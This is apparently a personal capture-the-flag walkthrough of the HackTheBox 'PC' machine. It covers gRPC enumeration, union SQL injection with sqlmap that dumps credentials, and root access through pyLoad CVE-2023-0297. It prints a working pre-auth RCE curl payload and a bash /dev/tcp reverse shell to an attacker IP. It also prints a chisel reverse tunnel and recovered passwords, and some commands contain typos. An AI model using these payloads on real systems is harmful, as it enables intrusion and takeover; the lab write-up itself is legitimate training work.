




## Reconnaissance

### nmap 

```
nmap -sC -sV -oN PC_light 10.10.11.214
```

- Only Find 2 open port 
1. Port 22: SSH

- Do a heavy scan
```
nmap -T4 -sV -oN PC_heavy 10.10.11.214
```
- Find another open port
- But it doesn't provide the service 
1. Port 50051 

### gRPC Protocol 

- Research about port 50051, I find a interesting service - gRPC

- Keep searching more information for it
> gRPC is a RPC structure, developed by Google.
> The design based on HTTP/2 Protocol and the serialize protocol of Protocol Buffers.
> The pros of gRPC as follow:
1. Protocol Buffers 二進位制訊息，使得效能提高。
2. 使用HTTP/2 ，在傳送和接收時都是精簡且有效率的。
3. 支援多語言


- What's Protocol Buffers ?  It's a data format which defined by Google.


- How the gRPC operate ? 


### How to access by gRPC ? 
- I tried to access port 50051 directly by browser, but it will show some unreadable string.

- [Source Code & Usage](https://github.com/fullstorydev/grpcui)
- Download it from git by wget 
```
wget https://github.com/fullstorydev/grpcui/releases/download/v1.3.1/grpcui_1.3.1_linux_x86_32.tar.gz
```


> Check how to use in GITHUB

- [Download binary file from here](https://github.com/fullstorydev/grpcui/releases)
- Execute grpcui to check how to use
```
./grpcui --help
```

- According to the usage in github, I execute the following command.
```
./grpcui -plaintext 10.10.11.214:50051
```

- Then access to the webUI service on localhost
```
http://127.0.0.1:33431
```

### Enumerating in GRPC-GUI interface 

- 3 methods can execute in this GUI
	1. LoginUser
	2. RegisterUser
	3. getinfo
- I tried to register a user by RegisterUser method first
- Response message 
> "message": "Account created for uesr XXXX ! "
- Using this account to login by loginUser method 


- Response message will include a ID and a token in Response Trallers
> "message": "Your id is xxx."


- Then I can get more info by getinfo method  with this ID information and set the token in Parameter

- Normally, It will reply the message like
> "message": "Will update soon"


## Exploit 

- With above enumeration, I know if I want to query more information of specific user, the token is necessary.
- Since the id is the parameter for checking user information, I think it might possible to do SQL query in backend
- So, I try some special character, like single quote(')

- Error message :
  > Unknown Unexpected <class 'TypeError'>: bad argument type for built-in operation
  
  
- Then, I intercept the query request by burp and scan it by SQLmap
- In burp repeater, I tried the following payload.(Try to guess how many column in this table)
```
"669 union select null,null"
```
- It seems give me a same error message like above 

- But when I keep trying others. (Keep guessing the number of columns)
```
"669 union select null"
```
- The response will be different with this payload, it doesn't show me any error message like it is a normal request.

- Then try the 3rd one
```
"669 union select 1"
```
- I can confirm the union sql injection success, since the response message is 200 ok without error message, and it also reflect the '1' in message value.

> I confirm there is a sql injection flaw so far, then I should use auto tool to crack it.
1. Copy the getinfo request from burp and save it as file 
2. Sqlmap to scan it with the following command
```
sqlmap -r pc.req -p id --dump 
```


- With the result, I know the DBMS is sqlite

- And the further result shows a table content which name is 'accounts'
```
| password | username |
| -------- | -------- |
|  admin   |  admin   |
|  HereIsYourPassword1431 | sau |
```


- With this credential, I tried to login with sau by SSH.
```
sau / HereIsYourPassword1431
```

## Privilege Escalation 

> After login to the server with low permission,  I confirm the current user with the following 
```
id 
whoami
```

> Then I do enumeration by linpeas


- Network status 
- It's easy to find there is a service run on localhost port 8000

- cron tab status 

- Potential CVE



- application run by root

- Here are some python code under /opt

- Check the content of sqlite.db

- Check the content of middle.py 
- I found a JWT Secret value 
```
jwtsecretkey10981
```

- With the network status result, Try to access it with curl 
```
curl -L 127.0.0.1:8000 > 8000.html
```

- Read the content of the file I download (Forgot to take screenshot)
```
cat 8000.html 
```
- With the image from others writeup below, it's easy to know the internal content is PyLoad
> Before access the internal service, it's necessary to build a tunnel to outside to let me access it
>  The easiest way is chisel
- In attacker host(kali)
```
chisel server -p 3477 -reverse 
```
- Target maching
```
./chisel client <kali address>:3477 R:8000:127.0.0.1:80000/tcp
```


> Or it also can done by ssh port forwarding 

```
ssh -L 1234:localhost:8000 sau@10.129.251.25
```

- Then access it from host's browser

- Check the HTML content to search keyword - pyLoad
```
cat 8000.html | grep 'pyLoad'
```

- Now, I know the internal service runs on pyLoad.
- And the pyLoad library also exist in /tmp

- Search the vulnerability from internet, a privilege escalation CVE for pyLoad - CVE-2023-0297
- [CVE-2023-0297](https://github.com/JacobEbben/CVE-2023-0297)
- Download it from github.
- Besides this payload, I also found a PoC in [here](https://huntr.com/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/) 
- Following the PoC, I can execute the following command to execute something.
- Ex. touch something in /tmp/pwnd
```
curl -i -s -k -X $'POST' \
	-H $'Host: 127.0.0.1:8000' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184' \
	--data-binary $'package=xxx&crypted=AAA&jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%74%6f%75%63%68%20%2f%74%6d%70%2f%70%77%6e%64%22%29;f=function%20f2(){};&passwords=aaaa' \
	 $'http://127.0.0.1:8000/flash/addcrypted2'
```
- Decoded `jk` parameter: `pyimport os;os.system("touch /tmp/pwnd");f=function f2(){};`

- Confirm the pwnd also created in /tmp

- Then, I know I can using this vulnerability to execute command remotely, then I also can let it execute a reverse shell to connect to my host.
- Create a reverse shell like follow
```
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.107/1337 0>&1
```
- Upload reverse shell to target 

- Execute the vulnerability to trigger the reverse shell
```
curl -i -s -k -x $'POST'
	--data-binary $'jk=pyimport%20os;os.system(\"/bin/bash%20/tmprev.sh\");f=function%20f2(){};&package=xxx&crupted=AAAA&&passwords=aaaa'
	&'http://127.0.0.1:9666/flash/addcrypted2'
```

- Confirm the nc listener

- Success to escalate the privilege to root
- Confirm the current user 
```
whoami
id
```

- Move to root directory

- Get root flag


## Reference 

### Writeup

- [HackTheBox Writeup — PC](https://dickytrianza.medium.com/hackthebox-writeup-pc-b787db46f82b)
- [HTB: PC](https://0xnirvana.medium.com/htb-pc-70db229efb68)
- [HackTheBox | HTB PC machine Walkthrough (Easy)](https://www.youtube.com/watch?app=desktop&v=nw9rjgd0tVg)
- [PC HTB Walkthrough](https://techyrick.com/pc-htb-walkthrough/)

### Tools 

- [REV generator](https://www.revshells.com/)
### gRPC 

- [什麼是 gRPC ？](http://gelis-dotnet.blogspot.com/2019/04/grpc.html)
- [gRPC 與 REST 之間有何差異？](https://aws.amazon.com/tw/compare/the-difference-between-grpc-and-rest/)
- [Day21-Grpc](https://ithelp.ithome.com.tw/articles/10241116)
- [gRPC Web Pentest Suite](https://github.com/nxenon/grpc-pentest-suite)
- [Notes on Pentesting/CTF “hacking” a gRPC application](https://www.huxxit.com/index.php/2023/05/25/notes-on-pentesting-ctf-hacking-a-grpc-application/)
- [Pentesting Twirp/gRPC-Web : Recon and Reverse-engineering](https://www.linkedin.com/pulse/pentesting-grpc-web-recon-reverse-engineering-marouane-belabbassi)
- [gRPC UI](https://github.com/fullstorydev/grpcui)
- [三種好用的 gRPC 測試工具](https://blog.wu-boy.com/2022/08/three-grpc-testing-tool/)
### SQL injection 

- [(GITHUB) SQL injection Cheat Sheet](https://gist.github.com/nani1337/02c65b06d0dbcf3b9a684f5caf78ad15)
- [(PortSwigger)SQL injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [(PortSwigger)Advanced SQL injection Cheat Sheet - Examining the database](https://portswigger.net/web-security/sql-injection/examining-the-database)
- [SQL Injection Cheat Sheet](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/)
- [SQL Injection Cheat Sheet](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/)

### pyLoad 

- [(GITHUB)CVE-2023-0297 - Payload](https://github.com/JacobEbben/CVE-2023-0297)
- [Pre-auth RCE in pyload/pyload](https://huntr.com/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/)
- [(NVD)CVE-2023-0297](https://nvd.nist.gov/vuln/detail/CVE-2023-0297)

- [pyLoad远程代码执行漏洞 (CVE-2023-0297) 安全通告](https://www.secrss.com/articles/51393)
- [(GITHUB)CVE-2023-0297: Pre-auth RCE in pyLoad](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad)

###### tags: `HackTheBox` `SQL Injection` `gRPC` `pyLoad` `Pre-Auth` `CVE-2023-0297`